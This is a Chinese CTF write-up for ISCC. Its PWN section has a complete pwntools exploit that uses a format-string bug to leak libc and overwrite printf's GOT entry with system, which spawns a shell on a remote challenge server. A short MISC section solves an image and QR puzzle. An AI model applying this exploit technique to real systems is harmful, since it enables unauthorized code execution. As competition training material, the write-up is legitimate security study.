

# ISCC

## PWN

第一题，是一个格式化字符串。

本来很简单，但是我自己过度依赖于one_gadget，所以失败。

先泄露printf的got地址，要使用

```python
%n$s+p64(printf_got)
```

正确的做法是，修改printf的got地址为system的地址，然后输入/bin/sh，这样就会执行

```sh
system("/bin/sh")
```

然后就OK了。

exp:

```python
#!/usr/bin/env python3 
from pwn import * 
#p = process('./sp1')
context.log_level='debug'
elf = ELF('./sp1')
env={"LD_PRELOAD":"./libc-2.27.so"} 
libc=ELF('./libc-2.27.so')
p = remote('123.57.69.203',7010) 


printf_got = elf.got['printf']
printf_plt=elf.plt['printf']
printf_offset=libc.sym['printf']

print("printf_offset:"+hex(printf_offset))
print("printf_plt:"+hex(printf_plt))
print("printf_got:"+hex(printf_got))

p.recvuntil('Can you find the magic word?\n')
payload=b'aaaaaaaa'
p.sendline(payload)
p.recv()
p.recv()
payload=b'%7$s' + p32(printf_got)
p.sendline(payload)#must sendline
printf_addr = u32(p.recv()[:4])
p.recv()
print("printf_addr:"+hex(printf_addr))

libc_base=printf_addr-printf_offset
print("libc_base:"+hex(libc_base))
one_gadget=libc_base+0x3d0d3
print("one_gadget:"+hex(one_gadget))


system=libc_base+libc.sym['system']
print("system:"+hex(system))
payload=fmtstr_payload(6,{printf_got:system})
print(len(payload))
p.sendline(payload)
p.recv()
p.recv()
p.sendline('/bin/sh')
p.interactive()
```


MISC

第一题，很简单。

打开图片，显然是高度被修改了。

接着修改高度，得到二维码。

扫描二维码，得到一串：

```url
\u5728\u8fd9\u6b21\u51ac\u5965\u4f1a\u7684\u821e\u53f0\u4e0a\uff0c\u6211\u56fd\u5c0f\u5c06\u82cf\u7fca\u9e23\u65a9\u83b7\u4e00\u91d1\u4e00\u94f6\uff0c\u90a3\u4f60\u77e5\u9053\u6b64\u6b21\u51ac\u5965\u4f1a\u6211\u56fd\u603b\u5171\u83b7\u5f97\u51e0\u679a\u5956\u724c\u5417\uff1f\u53c8\u5206\u522b\u662f\u51e0\u91d1\u51e0\u94f6\u51e0\u94dc\u5462\uff1f
```

http://www.msxindl.com/tools/unicode16.asp，Unicode与中文互转 16进制Unicode编码转换、还原

得到提示：

```
在这次冬奥会的舞台上，我国小将苏翊鸣斩获一金一银，那你知道此次冬奥会我国总共获得几枚奖牌吗？又分别是几金几银几铜呢？
```

搜一下：



然后加密压缩包输入15942，得到flag。

